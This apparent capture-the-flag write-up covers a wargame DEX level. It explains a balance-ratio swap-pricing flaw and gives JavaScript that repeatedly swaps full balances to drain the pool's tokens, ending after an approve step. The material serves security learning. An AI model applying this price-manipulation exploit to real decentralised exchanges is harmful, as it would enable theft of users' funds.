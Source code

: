 > The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

## DEX maths

The rate of swapping between the two tokens is calculated with:

```solidity
function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
}
```

In other words, with $i$ the block number:

$$\begin{align}
\alpha_i    &= \frac{N_{t,i}}{N_{f,i}} \\
Q_{i+1}     &= \alpha_i * Q_i \\
N_{f,i+1}   &= N_{f,i} + Q_i \\
N_{t,i+1}   &= N_{t,i} - Q_{i+1}
\end{align}$$

The first rate is 1, since the amount of both tokens are equal.

Then, the pool of "from" tokens increases, and the pool of "to" tokens decreases.
Since the destination token for the next transaction switches, it means that the rate is greater than one.

Actually the rate is always greater than one and the amount of tokens increases on each round.
Until all the liquidity is swapped.

## DEXtruction

We swap the whole balance back and forth until it amount for the whole pool:

```js
// setup
tokens = [await contract.token1(), await contract.token2()]
// factor the swapping logic
async function swap(j) {
    // switch tokens every iteration
    from = tokens[j % 2];
    to = tokens[(j + 1) % 2];
    // transfer the whole balance
    amount = (await contract.balanceOf(from, player)).toNumber();
    await contract.approve(contract.address, amount);
    await contract.swap(from, to, amount);
}
// iterate
for (let i=0; i<8; i++) {
    swap(i);
}
```

This works until the player has more tokens than the pool:

> "execution reverted: ERC20: transfer amount exceeds balance"

```js
(await contract.balanceOf(tokens[0], player)).toNumber();
// 0
(await contract.balanceOf(tokens[1], player)).toNumber();
// 65
(await contract.balanceOf(tokens[0], contract.address)).toNumber();
// 110
(await contract.balanceOf(tokens[1], contract.address)).toNumber();
// 45
```

So the rate is:

$$\begin{align}
\alpha_i = \frac{110}{45} = \frac{22}{9}
\end{align}$$

We want to empty the pool, IE $Q_{i+1} = 110$.

$$\begin{align}
\alpha_i * Q_i  &= 110 \\
\rightarrow Q_i &= \frac{110}{\alpha_i} = 45
\end{align}$$

```js
from = tokens[1];
to = tokens[0];
amount = 45;
await contract.approve(contract.address, amount);
```
